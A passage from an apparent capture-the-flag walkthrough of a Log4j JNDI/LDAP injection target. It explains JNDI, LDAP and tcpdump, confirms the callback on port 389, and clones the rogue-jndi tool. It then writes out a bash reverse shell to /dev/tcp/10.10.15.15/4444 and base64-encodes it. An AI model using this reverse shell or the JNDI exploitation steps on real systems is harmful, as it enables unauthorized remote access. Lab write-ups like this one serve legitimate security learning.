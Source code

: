 <aside>
💡 **JNDI** is the acronym for the  Java Naming and Directory Interface API . By making calls to this API, applications locate resources and other program objects. A resource is a program object that provides connections to systems, such as database servers and messaging systems.

</aside>

<aside>
💡 **LDAP** is the acronym for Lightweight Directory Access Protocol , which is an open, vendor-neutral, industry standard application protocol for accessing and maintaining distributed directory information services over the Internet or a Network. The default port that LDAP runs on is port 389 .

</aside>

- Apter we touch “send” the Response pane will display the response from the request and the output shows us an error message the payload is actually being executed.
- If we use the tcpdump on port 389 tool in shell linux to see if network packets are being transmitted.

![Screenshot from 2022-09-04 15-56-42.png](img/Screenshot_from_2022-09-04_15-56-42.png)

- Now that you know the target is vulnerable, we are going to try and get a reverse shell so we can interact with the underlying Linux operating system. First, you need to clone and build the tool, rogue-jndi from the GitHub repository linked below:

```bash
git clone https://github.com/veracode-research/rogue-jndi
```

<aside>
💡 tcpdump is a data-network packet analyzer computer program that runs under a command line interface. It allows the user to display TCP/IP and other packets being transmitted or received over a network to which the computer is attached.

</aside>

- Once the Jar is compiled, you’ll have to craft a command to deliver the reverse shell. We don’t have `nc` out of the box. Let’s craft our reverse shell and Base64 encode it using the one-liner below. Modify the command to fit your needs, replacing the IP address and port.

`echo 'bash -c bash -i >&/dev/tcp/10.10.15.15/4444 0>&1' | base64`

![Screenshot from 2022-09-04 15-57-14.png](img/Screenshot_from_2022-09-04_15-57-14.png)
